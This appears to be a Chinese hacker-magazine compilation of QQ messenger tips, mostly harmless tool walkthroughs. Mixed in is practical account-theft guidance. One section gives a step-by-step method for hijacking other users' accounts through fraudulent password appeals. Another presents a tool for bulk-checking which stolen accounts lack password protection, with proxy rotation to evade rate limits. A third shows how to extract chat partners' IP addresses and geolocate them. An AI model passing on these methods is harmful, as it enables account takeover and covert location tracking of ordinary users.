  （2）大多数的密码截取软件（有可能是全部）都是按照机械的时间排序法截取密码，即按照你输入密码的时间先后顺序来截取。例如你先后输入1、2，截取到的密码即为12；但如果先输入1，再把鼠标移到1前面输入2，则密码变为21，而软件仍可能按输入时间顺序截取为12。这是多数密码截取软件的漏洞。

平时应养成良好的QQ使用习惯：将“加我为好友”改为需身份验证；系统参数设为“拒绝陌生人消息”；启用本地消息加密；注意密码长度和复杂度，尽量避免在网吧等公共场所使用QQ；离开前删除个人信息和密码记录；若机器装有还原精灵，去时和离开时均重启机器。

## 无敌的号码申诉技巧


很多QQ号是几年前注册的，当时大家都没有防范意识，所以很多人现在丢了QQ号都很烦恼，记不起QQ号的密码保护资料，或者当时就是胡乱填的。别怕，现在QQ有申诉功能。下面教你怎样最大可能地申诉成功。

## 申诉列表中的5大项

- 1. **被盗帐号资料**  
  常用安全帐号（QQ、TM）；最好是被盗号好友里的QQ；历史密码越多越好，越早的密码越有说服力；可补充与本人有联系的QQ号。
- 2. **用户个人身份资料**  
  最好填写真实身份资料。
- 3. **被盗帐号原有密码保护资料**  
  若记得原密保资料，第一次申诉成功率较高；若不记得不要乱填。可尝试通过密保找回页面回忆问题与答案。
- 4. **密码保护改更新的个人资料**  
  按要求填写，确保信息一致、可信。
- 5. **申请服务帐号情况**  
  如实填写。这部分信息通常是关键项之一。

## 6、其他详细证明材料

被盗QQ的原有资料不全的话，这里就是整个申诉能否成功的关键了。本人列出很多条：

- 1. 该号码何处（比如：手机申请、在线申请）何时申请（如果你能记起来某年某月某日申请的，那你的申诉就基本成功了）。
- 2. 号码是否充过QQ币，充值是什么方式充的（比如手机充值、电话充值、QQ卡充值），把手机号、电话号也写上，这是一个很好的证明方式。
- 3. 该号码是否绑定过手机，如果绑定，手机号是多少。
- 4. 该号码是否玩过QQ游戏，玩过什么QQ游戏，积分多少，是否用过特殊道具。
- 5. 该号码是否玩过QQ幻想，多少级，什么职业。
- 6. 该号码是否申请过三钻，申请的时候是用什么支付方式，通过支付方式支付到什么时间。
- 7. 是否赠送过别人QQ秀或某些腾讯业务，有的话填上并注明获赠人的QQ号码（这里最好能填3个月前的，因为盗号者可以用你号码在QQ账户里查到你最近3个月QQ币消费记录，填早的更有说服力）。
- 8. 该号码的网络硬盘密码、通讯录密码、QQ账户密码（如果没设置就不用填写）。
- 9. 如果你是会员，你还可以填写你QQ客服电话的VIP服务密码。
- 10. 如果是会员，是否在会员服务期间克隆过好友，从哪个号码克隆的好友（如果有这个也是个很好的证明）。
- 11. 该QQ号码是否向某些人赠送过QQ衣服、替别人支付过什么服务，或者别人替你支付过什么服务，写上被支付人和支付人的QQ号码和昵称。
- 12. 有QQ宠物的可以填写自己宠物领取的方式（如：情侣宠物蛋活动、银行卡支付、好友赠送等）或者曾经赠送给哪些好友宠物。
- 13. 是否用QQ梦想地带的积分换过奖品或某些增值服务（有的话写清兑换的奖品送于何人或是自己使用）。
- 14. 是否上传过聊天记录（如果有这个也是很充足的证据）。

写了这么多大概看得眼花了吧。可是，为了我们可爱的QQ，忍了啊！

## 题外话：成功率100%的号码申诉技巧

这里有点本来不想写的，如果你想申诉别人的QQ，我有空帮他成功，但是需要时间，也没什么技术。前些天大家都知道，你盗了别人的QQ号，然后改3个密码，再去申诉一般成功；但是腾讯也发现了这个问题，所以对短时间内改的密码已经怀疑，证明QQ申诉成功了。那我们就这样，过一段时间再改一个密码，然后给他把密码改回，大约3个月的时间就可以申诉成功。本人实验过2个号都已经成功了。只是一个思路，不想大家拿去申诉人家的QQ号。

当然防止别人用你自己的QQ号也有技巧：腾讯QQ申诉的时候，要填3个好友，这3个号必须是在好友组里的（想到了什么吧？）。如果你把你的好友分组里的人就剩下你自己，然后重新建个组，把好友都放里面，每次上QQ号，一发现自己的QQ好友里有人，就赶快删除改密码，这样你的QQ号就高枕无忧了！

### 聊天记录也来谈保密

以前你们的QQ聊天记录被别人“偷窥”过么？里面可能有很多重要的资料与信息，万一泄露了后果可不堪设想，那么我们今天就来谈一下QQ聊天记录的保密方法吧。

### 方法一、用QQ自带的加密技术给自己的聊天记录加密

运行QQ，打开QQ2006的个人信息栏，接着选择QQ安全设置——本地信息安全。如图1，我们在启用聊天记录加密前的小方框里打上钩，然后在下面的口令处输入密码，如果需要密码提示的话就写上密码提示。在这里我们就设密码为bgbk吧。如果你是在网吧上网的话，建议最好在聊天记录清除前的小方框里打上钩。


最后点击保存，好了，我们去看看效果吧。如图2，呵呵，当我们再次登录QQ时，已经需要输入本地消息密码了，输入密码bgbk后，就成功登录了。当然了，我们还可以输入口令提示来进入。


### 方法二、利用工具对聊天记录加密

在这里我们要用到一个工具——QQ聊天保密箱。安装好这个软件打开它，呵呵，里面还有许多QQ聊天的常用话语呢，但我们主要是使用它的QQ聊天信息保密功能，常用话语大家有兴趣的话就去看看吧。

我们首先把聊天记录导入到一个TXT文本文档中，我就拿我今天上午我们班群的一部分聊天记录来做示范吧！我将其复制到一个.txt文本中，然后打开QQ聊天保密箱，选择上面的加密操作—打开源文本文档，将其导入。如图3。


然后，我们选择上方的“加密操作—另存为加密文件”，这时提示我们输入路径，输完后，接着输入密码，我在这里输入的是2006。如图4。


紧接着系统会自动生成一个QQBM格式的加密文件，生成到我们选择的路径中。如图5，表明我们已经成功地对聊天记录加了密。

下面我们再来看看解密。同样，选择QQ聊天保密箱上方的“解密操作--打开已解密文件”，选择好文件之后，然后输入密码2006，紧接着文件就打开了，呵呵，简单么？我们还可以把它转换成txt的记事本文本文件。

我们可以把加密文件存放到各种地方，也可以随身携带，就不怕被别人乱看了，呵呵。同样，我们还可以将各种信息去加密，防止偷看。

至此为止，我们的聊天记录也就安全多了，大家也就可以放心地离开电脑了。


## QQ密码保护查询

当我盗来了一堆QQ号的时候，要做的第一件事就是挨个去试它们有没有密码保护，但是那么多QQ号是不是非常麻烦啊？当我们想去针对性地盗号的时候是不是又怕对方万一有密码保护，最后白忙活一场。让“QQ保密查询器”这款软件来帮助我们吧。

首先打开“QQ保密查询器”的界面如图1，界面很整洁，就只有QQ查保这个功能，用起来得心应手。

首先点击“待查QQ”，在下面的文本框中输入你要查询的QQ，不需要输入密码就行。如果你是批量查询，则需要一行输入一个QQ号。如果你要查询的QQ数量太多，当超过十五个的时候就需要用到代理了。因为腾讯在短时间内对每个IP查询的次数是有限制的，每个IP在短时间内只能查询一批号码。当然，如果你不想使用代理的话可就要麻烦点了，每次查询一批号码，然后等待15-20分钟后，再次查询下一批。代理的格式如下：“IP：端口”，这里也是需要每一个代理占一行。当“使用本机IP”打勾时，则优先使用本机IP查询，然后再通过代理查询。设置好了你需要查询的QQ号之后点击开始，这款软件就帮你行动了。

我们开始行动吧，我随便输入了几个QQ号，然后点击开始，如图2，看到下方的进程栏了么？软件已经开始查询了。

不到一会儿，系统提示“查保完毕”，如图3。那么有密码保护的QQ则会显示在“有保QQ”里面，无密码保护的QQ会显示在“无保QQ”里面。依然是按一个号码一行的规则排列。这个软件没有导出功能，也不能记忆查询的帐号，所以当我们查询完了之后可以把查询的结果复制到记事本中，保存起来，方便以后再用。

是不是很简单，很方便又很快捷呢？这样一来，我们以后可就方便多了，再也不用为查询QQ密码保护的问题发愁啦！


### 2.3 QQ黑客百宝箱

这款工具真的像百宝箱一样，综合N多实用的功能，软件界面如图1。

输入待测QQ号并单击检测按钮后，密码保护查询的结果会显示在白框内。QQ性别修改器需要先打开“个人设置”窗口，性别修改器就会显示成“有效状态”（图2），然后把你想要加的字替换那个“魔”字，只能用一个字，点击插入，最后在“个人设置”处选择你输入的字（图3）。查看一下资料，果然性别处改成了“妖”字（图4）。

只要在上边输入QQ号，再点击下边对应的功能，就可以查看对方QQ秀、财富情况、个人空间和强制聊天等（图5、6）。

最后一个“QQ空间3.0在线代码生成工具”，是链接到一个在线生成代码的网页上（图7），设置完成点击“提交”，代码就生成在最下面的白框中（图8）。


```javascript
// 去顶图
call_div.innerHTML='';

// 去原导航
custom_menu.style.visibility='hidden';

// 去商城广告图
gotoshop.innerHTML='';

// 去空间小精灵
sprite_div.innerHTML='';
```

### 2.4 QQ七彩文字

平时QQ聊天，总是面对枯燥的字体，你有没有想做一下改变？大家看看如图1的两种文字，大家更喜欢哪一种呢？大家肯定是喜欢那种七彩文字吧。以后聊天时面对这种七彩文字，相信聊天也会更加津津有味。

发送这种文字，简单说就是我们发送的不再是文字，而是一张张带有字的小图片。下面我们需要用到“qqchar”这款软件来添加这些要发送的文字表情。打开软件，界面如图2。

这里有许多种文字样式供我们选择，我们可以选取自己喜欢的来安装。里面都是平时我们常用的汉字，还有所有的数字和英文，一般这样就够我们平时聊天用了。首先我们安装第一个：1000个常用汉字，再可以安装动态数字或动态英文。其他那些随便你喜欢哪种字体就可以安装哪种字体。点击鼠标左键时它会提示你是否安装，然后我们点确定，它就会自动安装到QQ的相应目录下。如图3。

安装成功点确定，如图4。这样已经安装好了，下面我们在聊天窗口中点QQ表情，选择“使用自定义快捷键”，这样使我们打的汉字转化为带文字的小图片，如图5。

这样我们以后再聊天时打出来的字就是七彩文字了，比原来好看多了吧！如果你不想使用了，就把“使用自定义快捷键”取消就行了。提示一下：网速非常差的建议不要使用，因为网速太差，图片不一定能正常显示，毕竟直接发送文字要比发送图片快。还有一次性要粘贴非常多文字时要关闭自定义快捷键，不然容易卡机，因为需要转换的图片太多了，机器就反应不过来了。


## 2.5 QQ群登录

每次打开电脑，如果大家有好几个QQ号的话，就需要一个一个地去登录，是不是很麻烦。大家可以用QQ群登录快手来试一试。这个软件可以在开机的时候自动帮你登录QQ，可以一次登录好几个QQ，这些琐碎的事情就全交给它了，也不用麻烦你去挨个登录了。下面图1是QQ群登录快手的界面，界面非常简洁，依靠这个软件就可以化繁为简了。

点击“添加”会出现如图2的一个窗口。在“QQ号码”里面打上你要快速登录的QQ号，“QQ密码”里面填写你的密码。下面的“密码备忘”可以写点备忘的内容，不必在意。可以选择QQ或者是TM两种启动方式。如果你没有安装某个程序，那么它将会出现错误而退出，相信大家一般安装QQ，也都安装了TM。这里也可以选择隐身上线，这就随便你了。你需要一个一个号地添加，添加完了你也可以导出txt文件，方便以后在其他电脑上用，下次只需将其导入就能将所有的号码都添加完毕。想要快速启动QQ，只需再点击“立即登录”就可以了，如图3。我们也可以点“快捷方式”按钮，生成一个快捷方式，以后直接在桌面上点击这个快捷方式就能轻松登录QQ了。

如果你还想在系统启动时就自动运行本软件，且自动登录QQ，那么你需要设置开机启动。在左下角看到开机启动如图4，这里你选普通就行了，等下一次开机的时候，这款软件就会自动运行。等待30秒后将会自动登录你设定的那些QQ号，一般30秒之后系统启动的程序也都启动完了，再启动QQ不会太卡（除非你机子很烂）。当然了，你也可以自己设置这里的时间，点“选项”按钮，将会出现如图5的界面，里面可以设置QQ的启动前延时和启动中延时，你嫌它太慢的时候就可以把QQ的启动前延时调快一点。在这里还可以手动给主程序定位，大家自己看看就行了。

为了防止别人在你的电脑上登录QQ群登录快手这款软件，然后导出我们的账号密码，导致我们的QQ号密码暴露。这款软件设置了一个程序启动的密码功能，点击“密码”，会出现如图6的界面。

选择“启用程序启动密码”，重复输入你想要的密码就可以了。那么下一次你打开程序它就会提示需要密码了，如图7。

有了这款软件，以后我们登录QQ可就方便多了，省得劳烦自己动手了。


## QQ头像变脸王

自从QQ有了自定义头像功能以后，许多用户都设置了自己的QQ头像。当然了，这些头像也多种多样。有用明星照片做的，有用漫画做的，但仔细看，都是在一些照片上裁剪的。大家可能用一些截图软件去裁剪，那么这样十分费力，而且还要控制大小，浪费时间。那么我为大家推荐一种专业的QQ截头像软件——QQ头像变脸王，这个软件不仅可以帮助你从各种明星照片“裁剪”一部分做成适用于QQ的个性自定义头像，还可以帮助你一次性完成从使用摄像头拍照到从照片中“裁剪”出你的脸做成QQ个性头像的功能。

我们来看看这个软件吧。运行后界面如图1所示：右边是选择功能的区域，左边是编辑图片的区域。我们可以用这个工具拍照然后制作成头像（必须装有摄像头），点击右边的拍照即可。由于我没有摄像头，所以在此就不能给大家抓图了，大家见谅。我们就拿一张周杰伦的照片来截图做头像吧，点击右边的打开选择好图片。然后在左边的编辑区域会自动打开这个图片，如图2，然后我们在这个照片上选择图片的区域（用虚线画出的区域）。


> 技巧：由于头像都是正方形的，我们可以在照片上选择一个长方形的区域，然后点击右边“正方”，程序就会自动将你所选择的区域变成正方形。


选择好了之后我们可以点击右边的预览来看一下效果，然后在右边的小方框里就会出现我们捕捉的头像，如图3。然后我们点击保存就可以将头像导出了，呵呵，简单吧！我们上传到QQ上来看一下效果，如图4。呵呵，不错吧。大家也来试一下吧。

## QQ小金鱼快捷外挂

当你和几个朋友聊QQ时，你要在不同的聊天窗口之间来回切换，你一边在键盘上打字，一边要用鼠标点击不同的聊天窗口，搞得手忙脚乱，大家是不是觉得有些累了？那么我为大家带来一款软件——QQ小金鱼快捷外挂1.10。小金鱼可以为你解决这一问题，它可以使我们用键盘控制聊天窗口的切换，脱离鼠标，使我们聊天更加方便与快捷。

下面，我们打开3个好友与他们同时聊天，然后打开QQ小金鱼快捷外挂，右边有一个配置外挂的窗口，我们首先来配置外挂，如图1所示。我们在这里可以选择开机自动运行、允许窗口最小化、同时只显示一个聊天窗口以及热键的延时，我们可以根据自己的需求来配置。

- 开机自动运行：开机自动启动该程序。
- 允许窗口最小化：选中该项则窗口可最小化。
- 同时只显示一个聊天窗口：减少窗口干扰，便于快速切换。
- 热键延时：可按个人习惯调整按键切换响应时间。


聊天室就会只显示一个聊天的窗口，将别的窗口最小化。如果不选择这项，则会有许多窗口并在屏幕上。我个人觉得最好选上，因为它可以使屏幕整洁。

热键的延时：这个顾名思义就是在按了热键后反应的速度，最好不要修改。

然后我打开3个好友的聊天窗口，分别配置他们的编号。打开与我的几个好友的聊天窗口，这时程序会自动配置他们的编号，如图2。然后我们点击QQ小金鱼快捷外挂上的隐藏，将外挂隐藏起来就可以使用了。以后想与谁聊天你只要在键盘上按一下热键（热键为Ctrl+聊天窗口上的数字编号）就可自动呼出它的聊天窗口，省去了我们操纵鼠标的麻烦，是不是很方便呢？


## QQ也玩虚拟摄像头

我们都知道，只要在QQ上有了摄像头、会员、手机、炫铃包月，就可以在QQ好友的列表中名列榜首。我的朋友们都绑了手机、开通了炫铃包月与会员，但是，就是缺摄像头，他们为了摄像头费尽周折，家长不给买就是没办法。

我们都知道，利用珊瑚虫版的QQ可通过如图1的界面来制造一个假的摄像头。


的确，我们通过这样的方式可以给自己添加一个假的摄像头，添加后在我们的QQ服务栏中会出现一个QQ摄像头的图标。可是一直我们与别人视频的时候，还是不能够显示出摄像头，系统提示没有找到视频设备（如图2）。


这样一来，还是等于我们没有摄像头！那么真的没有办法了吗？不是的。那么今天我就给大家带来了一款工具——虚拟摄像头（Softcam）1.52。这是一个名副其实的软件摄像头，它能模拟成为“真实的”摄像头，成功地骗过大部分的视频聊天软件，比如Microsoft Netmeeting、CU-SeeMe、UC、QQ等等。如此一来，就算我的计算机上并没有摄像设备，也照样能使用这些软件来视频聊天。

安装好Softcam以后（下载地址：http://www.onlinedown.net/soft/19585.htm），由于这个程序不在桌面上添加快捷方式，那么我们来到它的安装文件夹 `C:\Program Files\Luminositi\SoftCam1.5`，打开它的主程序 **SoftCam.exe**。打开之后程序运行的界面如图3所示。

这就是它的主程序。这个程序分为两部分，上方是一个控制器，里面有这个程序的一些设置，还可以从这里添加图像/影片等。下方是播放程序。

首先我们点击上方的 **TITLES**，来添加图像/电影。这时会弹出这样一个对话框（如图4）。


这里是已经有的图片与影片；我们点击 **NEW TITLE** 来创建一个新图片或影片。

在第一个框里输入我们需要的题目；第二个输入框中填写影片或者图片的位置，也可以点击右边小三角选择路径（注意添加时选择好格式）。第三个输入框是选择背景，最后一个框是选择背景音乐，可按需要填写。

填写完毕后点击 **OK** 确认，这时程序会回到图4所示界面。还可以使用 **DELETE** 删除文件，使用 **PROPERTIES** 编辑文件。

如果认为编辑好了，选定相应文件点击 **PLAY**，然后会自动来到图3所示界面，点击 **START** 即可播放。


注意：下方有一个如图6所示的操纵杆。如果选择 **MOVIE** 则播放的是电影，选择 **STILL** 则是图片；旁边还有 **SIZE** 用来选择图片或电影的大小，这里也需要根据自己的需求调整。

到此为止虚拟摄像头就配置好了。打开QQ聊天窗口，选择与对方视频（如图7），可以看到视频画面已经变成预设的图片了。

- 哈哈，方法简单吧！

## QQ字符画精灵

想不想在QQ聊天的时候到处充满你的字符画，既有个性又好玩呢？字符画简单说就是用字符打出来的图画，这种东西肯定会特别吸引别人的目光。下面就让我们借助“QQ字符画精灵2003”在字符上大做文章，让我们的聊天中有字符！

“QQ字符画精灵2003”可以把单个文字转化为字符，一串文字转化为字符，图片转化为字符。它还收藏了许多种类的经典字符和短句，是聊天时不可多得的聊天利器，以后聊天只需复制粘贴就行了。首先安装软件，安装完成后软件界面如图1。

我们先来看“QQ字符画”功能，在“输入文字”中打上我们要单个转换的文字。“图符”是构成文字的符号，“修饰”是背景符号，也可以不选，就是没有背景。下面是选择模式：全角模式、半角模式和表情图模式。前两个就是转化全角和半角的不同，大家可以自己试一下效果，如图2。我特别要说的是那个表情图模式，选上表情图模式，按“选择表情图”选择你喜欢的表情，然后点转换。这样你在效果预览中可以看到很多带“/”的字符，不用管在这里的效果，把它们全选，复制到QQ的聊天窗口中。你会发现已经变成了由表情组成的一个文字，效果如图3，看看还不错吧。其他的那些功能都没多大用处啦，自己去试试效果就知道了。选择一个好的文字，到QQ上给你的好友炫耀一下吧。

下面我们一起来看“QQ留言”和“QQ贴图”这两项，它们的用法都是一样的，所以就一起来讲啦。如图4和图5就是这两个功能的界面啦。


里可是一个文字和符号的宝库，有N多的搞笑文字和经典话语和字符图片。读都读不完啊，看最下面光种类就分了这么多，按小箭头点半天才能看到头。“QQ留言”里面的分类有歇后语、精彩外语、俏皮话、数字情话等等；“QQ贴图”里面的种类有动物、植物、车船等等。平时闲得没事就在家看这个吧，包你看个够啊。你也可以和自己的好友分享这份快乐，选择你觉得经典的发给他们，发给大家一起来看啊。


“自动消息”这个功能好像不能用了，反正现在有自动消息功能的软件有很多，我们也就不在意这个了。

下一个我们来看“图形转换”功能，如图6。在“常用资源”里我们可以选择“表情图片”“短信图片”和“其他图片”，选择的图片在“图片预览”中查看。“灰度设置”一般选“常规灰度”就可以了，“模式选择”也和前面一样。“反色模式”可以使颜色轻重相反。下一步点转换就可以查看转换后的效果，如果感觉满意就可以复制到聊天窗口里去。


如果你想转换自己指定的本地图片，那么可以选择“从外部选择转换图片”选取所需图片，但要注意图片不要太大。我们再来看“文字转换”的功能，这个功能和单个文字转换差不多，就是能转换的文字更多，还可以选择文字的字体和大小以及文字样式，转换效果如图7。


最后还有一个“贴图DIY功能”，如图8。选择一个你喜欢的字符，就可以在下面的坐标图中自己来设计一些你喜欢的文字或图片。如果你想修改那些在“QQ贴图”中看到的字符图片，也可以在非编辑模式下先全选，再点“贴图DIY”按钮。画完以后点发送，可发送到QQ聊天窗口。


在“选项设置”中你可以调节一些有关程序的设置，这里面还保留了你操作的历史记录，如图9。由于这个软件是共享版的，可以注册，不过不注册也能用，功能一样。有了这款软件，相信大家以后的聊天生活将会更加完美，字符图片随心所欲，快快乐乐聊天。

## 找个专家帮你泡MM


遇到了MM不知道该说什么，小MM嫌你不会“甜言蜜语”。不用着急，咱们请个专家帮你忙。QQ哄女孩专家内置了大量甜言蜜语，并且可以自动发送，保证你马到成功，手到擒来。先打开你要“下手”的MM的聊天窗口，选择聊天模式，然后请出“专家”，界面如图1。右边是可以发送的甜言蜜语，单个发送和连续发送都行。在接受者处选择你要发送的对象，点击发送就是发送。你在右边选择的话，连续发送是从你选择处向下挨个发送，如图2。


### QQ聊天伴侣

当你在和网上的MM（GG）聊天时，看到别人发过来的漂亮图形和精彩文字是不是很惊讶，想知道他是从哪里找到的这些东西的吗？现在介绍的“QQ聊天伴侣”软件就收集了大量的漂亮图形和精彩文字，并且有自动发送消息的功能。下面我就来详细介绍它的使用方法。

我们先把“QQ聊天伴侣”从光盘中安装到我们计算机中，安装完成后执行主程序。QQ聊天伴侣没有主界面，执行后有个启动画面，它的图标显示在系统托盘中。右键单击那个黄色笑脸的图标，出现一个菜单，如图1。

从菜单中我们可以看到软件的三大功能：图形发送、聊天用语和自动消息，我来分别说明。


### 图形发送（图2）

界面的左上角是选择不同类别，每个分类中有许多好看的图形。如果你发送哪个就把它“拖黑”后复制，再粘贴到你的QQ发送信息框中，给你的好友发送过去。这些图形不是一成不变的，我们可以随意添加或删除图形。找到“QQ聊天伴侣”的安装目录，打开“图形发送”目录，我们能看到每个分类都被保存成一个TXT文件，那些美丽的图形就保存在里面（图3）。我们可以修改TXT文件，在里面添加或删除图形；重启软件后就能看到修改效果。图4中是我修改的地方。


### 聊天用语（图5）

其中收录了大量精彩语句，在泡MM时常常派上用场。使用方法和“图形发送”类似，也是在左上角选择不同类别，然后可随意添加或删除文本内容。其目录位于“QQ聊天伴侣”安装目录下的“聊天用语”目录。


### 自动消息（图6）

它的作用是自动发送消息，可以发给不理我们的人，但别过火。

- 消息数量：给对方发送消息的次数；
- 消息内容设置：可修改消息内容；
- 时间间隔：两次消息发送之间的间隔，需根据网速和机器配置调整。

这个“QQ聊天伴侣”很实用。平时多收集素材并保存到软件中，在泡MM（GG）时可事半功倍。

## 教你录制个QQ贴图

现在大家上网时常能看到网站首页挂着即时聊天框链接，点击后可打开一个QQ临时对话框与站长聊天。那么如何设计一个自己的即时聊天框并放到个人主页或论坛签名上？下面开始介绍。


打开本文附带程序“QQ贴图王”（图2），选择一种聊天风格（示例为“风格十三”），在前面小框打勾后进入第二步，填写相关信息和风格参数，在上方输入框中设置文本即可。

图3，我已经填写好了。大家请根据自己的需求来填写。

然后我们来到下方的生成代码区，在这里我们可以选择生成网页代码（就是插入到主页等静态网站上所需的代码）与论坛代码（就是插入到论坛上所需的 UBB 代码），点击相应的对话框，这是程序提示成功了。下面就是我生成的论坛代码：

```text
[img]http://wpa.qq.com/pa?p=1:381120299:6[/img]
[url=http://wpa.qq.com/msgrd?v=1&Uin=381120299&Site=bgbk-hackerxfiles.net&Menu=yes]点击这里给我发消息[/url]
```

```html
<a target="_blank" href="http://wpa.qq.com/msgrd?v=1&Uin=381120299&Site=bgbk-hackerxfiles.net&Menu=yes"></a>
```

我们把它粘贴到网站的合适的位置测试一下，我就在我们的 X 论坛测试一下论坛的代码吧。如图5，成功运行了。

## 2.3 教你批量挂QQ

现在有不少同学、朋友要求我帮他挂 QQ，而我又厌烦了每次开电脑上网都开启 N 个 QQ 程序。大家是不是也有这样的经历呢？以前用 NoOpenQQ 来批量挂 QQ，可是总感觉很多地方没有完善，不尽人意，那么今天我为大家带来了一款新的挂 QQ 工具——TenyQQ v1.1。TenyQQ 是一款业余挂 QQ 的小工具。使用它，您再也不必为了挂 QQ，开多个 QQ 客户端而占用过多系统资源而烦恼。TenyQQ 使用了多线程的工作方式，确保每个正在登录的 QQ 互不干扰，稳定运行。同时 TenyQQ 支持自动回复，可以告知您的好友您本人不在。还有消息记录功能，可以将好友发来的信息记录下来，这样，一些重要的信息便不会遗失。TenyQQ 甚至可以记录下请求加为好友的系统信息，如果您愿意，您还可以将程序设置为自动接受好友请求，非常方便。TenyQQ 支持 TCP 方式登录，更加稳定。最主要的是，TCP 方式登录还支持 HTTP 代理。再也不用烦恼公司用代理上网无法挂 QQ 了。哈哈，功能不少吧！那么现在我们就来一睹它的风采吧~

打开程序，先看看它的界面，如图1。

图1

程序窗口只有一个标题栏和一个列表框。标题栏上显示了 TenyQQ 工作状况和运行时间。其中，在线 [A/B/C] 的意思是，列表中一共有 A 个号码，有 B 个线程正在工作，C 个线程状态为已登录。后面的“已运行”为本程序已运行的时间。程序成功运行后，在屏幕右下方会出现它的运行框，如图2。

## 第三章 QQ 工具箱

我们在主程序的空白区域单击鼠标右键，选择添加，这时会弹出一个对话框，如图3。在上面的那个大输入框中，我们输入 QQ 号与密码，格式是 QQ 号码----QQ 密码，号码和密码间使用 4 个短线（减号）连接。如果需要输入多个 QQ，我们可以另起一行再输入。然后我们选择工作的方式，在这里我选的是离开状态，旁边还有一个 TCP 的选框，如果勾选了此框，就是使用 TCP 方式来登录。如果不选择，就默认使用 UDP 方式登录。

### 小知识：什么是 TCP 方式与 UDP 方式？

首先，UDP 和 TCP 都是一种网络传输协议。UDP 是无连接的传输协议，工作在网络七层模型的传输层，采用它向通信目的主机发送消息时只管发送，不管是否都被接收完全，这种方式相对不可靠，但是传输速率高。

TCP 是面向连接的传输协议，工作在网络七层模型的传输层。采用它向通信目的主机发送消息时，既控制发送也控制接收端的接收，这种方式相对可靠，但是传输速率比 UDP 方式慢。

下面有一个记录消息的功能，它可以将好友发送过来的全部消息保存到文本文件。当然了我们也可以使用它的自动队列的功能，以节省系统的资源。

### 什么是自动队列功能？

我们来打个比方吧，假如您有 100 个号码，您可以将此号码分成 5 批，每批 20 个，每天只登录 2 小时，那么，您可以将这 100 个号码设置为自动队列，然后在程序设置中做如下设置：每日在线 130 分钟，并发数量 20。这样，程序就会自动帮您做好这一切了。为什么要设置成 130 分钟呢，这是为了防止误差，比如中途掉线等等产生一些误差，所以设置的要大一些。使用这个功能可以让 QQ 号轮换登录，达到节省系统资源的功能。

另外我们还可以将消息转发到另外一个 QQ 上，但这样比较浪费系统资源，我个人并不喜欢。下面还有一个自动回复的功能，这个很简单，我就不多啰嗦了。

好了，在这里我就先拿自己的 QQ 来试验一下吧。我们导入了 QQ 号码以后，在空白的区域单击右键，选择全部登录。如图4，已经全部登录了。而且 QQ 的等级/升级余时/在线时长/今日在线时长等一应俱全，功能很全吧！我们还可以在相应的 QQ 号上单击鼠标右键，来编辑这个号码的信息以及使用更多功能等，如图5。

下面我们再来看看它的扩展功能：在菜单中单击鼠标右键，选择高级——程序设置。这时会弹出一个对话框，如图6所示。

我们在这里可以使用更多的功能：

- 1. 开机自动启动：勾选后 Windows 系统启动完毕将自动运行 TenyQQ。  
- 2. 隐藏运行模式：勾选后启动时不显示主窗口，最小化时不显示托盘图标（在自动队列设置为自动关闭系统时不显示倒计时窗口）。  
- 3. 自动登录所有：启动时自动登录列表中的 QQ，自动队列登录数量取决于自动队列设置。  
- 4. 接收超时最大重试：按网络状况设置，建议默认。  
- 5. 自动队列设置：每日在线分钟、并发数量、所有成员完成后动作等。  
- 6. 并发数量：每一批自动队列的登录数量。  
- 7. 总在最前：窗口保持在最前端。  
- 8. 窗口热键：用于呼出或最小化程序窗口到托盘。  
- 9. 代理设置：仅支持 HTTP 代理，且需支持 CONNECT 方法。  
- 10. 自动保存间隔：防止意外关闭导致数据丢失，建议约 10 分钟。  
- 11. 今日在线分钟刷新时间：在线号码多时，刷新过于频繁会占用资源。  
- 12. 接受好友：可自动接受加好友请求。  
- 13. 离线检测 / 离线命令：检测到号码离线后自动处理并可重登。  

好了，到此为止这款软件的功能就介绍完毕了。就像我说的一样，这款软件才 35KB，可谓“麻雀虽小，五脏俱全”。另外，有人担心 QQ 号因使用该软件被盗。文中说明：软件不会明文保存数据，密码加密结果会保存在内存和文件 `TenyQQ.dat` 中，使用两次 MD5 单向加密；若密码复杂，短时间内较难破解。使用前仍应确保系统环境安全，避免密码泄露。

## 2.14 QQ狙击手

想不想知道和你聊天的人的具体位置？利用 QQ 狙击手这一款软件可以查看 QQ 上对方的 IP 和位置。下面就让我们来解析一下这款软件的具体用法。

安装完成，QQ 狙击手的界面如图1所示。这款软件还是不错的，只不过是还要花钱注册（小弟没钱，穷人一个，所以是未注册版的）。未注册的版本有三个限制：

- 1. 无法修改 QQ 客户端默认端口
- 2. 无法显示对方的地理位置
- 3. 无法使用 Flash Online 功能

我觉得唯一遗憾的就是不能使用 Flash Online 功能，这个功能可以让你的 QQ 头像在你的好友 QQ 列表上来回闪烁，并发出敲门声，提醒对方你已经在线了。当然了大家也可以自己去破解，破解好了别忘了教教小弟哦。

你可以先启动 QQ，然后启动 QQ 狙击手，也可以通过 QQ 狙击手来自动启动 QQ，或者分别单独运行。只要 QQ 程序一运行，QQ 狙击手即可开始工作。我们看到软件的左下角有一个圆形指示器，如图2，该指示器是说明软件的运行状态，如果一直为灰色不闪烁，则说明程序没工作；如果开始不时闪烁说明程序正常工作了。

查看好友或陌生人的 IP 信息时，需要在“消息模式”下进行，注意用聊天模式是显示不出来的。等别人给你发信息来的时候，聊天窗口右上角的广告就变成了 IP 地址信息。效果如图3所示。

当然了，你也可以通过点击程序中的“QQIP”来查看，效果如图4所示。没有注册的用户上边是不会显示地理位置的。双击列表框上的 IP 记录可以进行复制，以方便对 IP 的查看。

虽然未注册版本进行了限制，没法显示地理位置，但是都有了 IP 地址了，地理位置不就小菜一碟了吗。我们不用注册，照样可以得到地理位置，打开“http://www.ip138.com/”这个网站，输入我们 QQ 狙击手查找到的 IP 地址，如图5，然后点击“查询”；如图6，他的地理位置这不就显示出来了么。

在查询 IP 的时候有的人可能会出现“QQIP”列表上一片空白，下面是官方做出的一些回答，大家可以参考一下：您可以查看 QQ 狙击手主窗口左下角的圆形指示器。如果该指示器一直为灰色（没有闪烁），说明 QQ 狙击手没有工作，无法与 QQ 进行通讯。如果该指示器不时地在闪烁，说明 QQ 狙击手已经开始工作了。这有可能对方是隐身的，或者是通过代理服务器上的，查到的是服务器的 IP，不会显示在“QQ IP”的列表框当中。如果对方既没有隐身，也没有使用代理，但是由于双方网络连接状态不是很好，通讯数据也会通过腾讯服务器中转，这样查到的数据也是腾讯服务器的 IP。

在“实时IP”列表当中，当我们点击“实时IP”功能的时候，那么我们与好友、陌生人还有服务器之间的 IP 通讯数据就全部一目了然了，如图7。

